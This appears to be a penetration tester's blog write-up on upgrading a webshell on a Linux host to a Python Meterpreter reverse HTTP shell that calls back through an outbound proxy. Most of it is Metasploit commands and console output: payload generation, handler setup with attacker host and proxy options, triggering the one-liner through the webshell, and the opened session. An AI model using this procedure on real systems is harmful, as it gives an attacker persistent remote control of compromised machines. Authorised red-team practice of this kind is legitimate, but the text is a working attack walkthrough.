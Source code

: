 # Metasploit - Python Meterpreter through Proxy

I got into a situation recently where I had a webshell on a Linux system and I wanted to get a full Meterpreter. Initially we thought that there was no outbound access but after a fellow teammate reversed some .jar files found on the system the proxy server was discovered. Basically now I needed a reverse shell that allowed me to specify a proxy for outbound connections. I sent a quick message to @TheColonial on IRC and he let me know that Python HTTP/HTTPS Meterpreters could do what I needed.

### Testing Python on the webshell

First I used the webshell to test the ability to run Python

```python -c "import os;os.system('ls')"```

### Generating the payload

When this worked I moved onto generating the meterpreter payload:

```msf > use payload/python/meterpreter/reverse_http```

Next I set my attack host ip address and the ip address of the outbound proxy:

```
msf payload(reverse_http) > show options

Module options (payload/python/meterpreter/reverse_http):

   Name              Current Setting            Required  Description
   ----              ---------------            --------  -----------
   LHOST             *attack host ip*           yes       The local listener hostname
   LPORT             80                         yes       The local listener port
   LURI                                         no        The HTTP Path
   PayloadProxyHost  *outbound proxy*           no        The proxy server's IP address
   PayloadProxyPort  80                         yes       The proxy port to connect to
```

Last step was to generate the payload:

```
msf payload(reverse_http) > generate -b '\x00\xff' -t raw -f meterp-python-https-80.py
[*] Writing 606 bytes to meterp-python-http-80.py...
```

This will generate a one liner that you can use to trigger the payload.

### Setting up the Handler

The next step is to setup the handler:
```
msf payload(reverse_http) > use exploit/multi/handler
```

Then I set the handler payload option:
```
msf exploit(handler) > set payload python/meterpreter/reverse_http
payload => python/meterpreter/reverse_http
```

Followed by the other needed options:

```
msf exploit(handler) > set LHOST *attack host ip*
LHOST => *attack host ip*
msf exploit(handler) > set LPORT 80
LPORT => 80
msf exploit(handler) > set PayloadProxyHost *outbound proxy*
PayloadProxyHost => *outbound proxy*
msf exploit(handler) > set Payloadproxyport 80
Payloadproxyport => 80
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (python/meterpreter/reverse_http):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   LHOST             *attack host ip* yes       The local listener hostname
   LPORT             80               yes       The local listener port
   LURI                               no        The HTTP Path
   PayloadProxyHost  *outbound proxy* no        The proxy server's IP address
   PayloadProxyPort  80               yes       The proxy port to connect to


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
   
```
There are a few additional options I set such as ExitOnSession to false so the handler remains open for multiple connections just in case the first one fails. Also I set verbose to true to get more verbose output for troublehsooting:

```
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > set VERBOSE true
verbose => true
```

Lastly I start the handler with exploit -j so it runs in the background:

```
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
```

### Triggering the payload

Next take the payload one liner that was generated and use python -c to trigger the payload in your webshell(Other forms of command execution could be potentially used to do this as well):

```
python -c "*python meterpreter one liner*"
```

And wait for the payload to stage:

```
[*] http://*attack host*:80 handling request from *outbound proxy*; (UUID: 6dvezhby) Staging Python payload...
[*] Meterpreter session 1 opened (*victim*:80 -> *outbound proxy*:12480) at 2016-10-05 00:12:02 +0000
```

Enjoy your Meterpreter :)
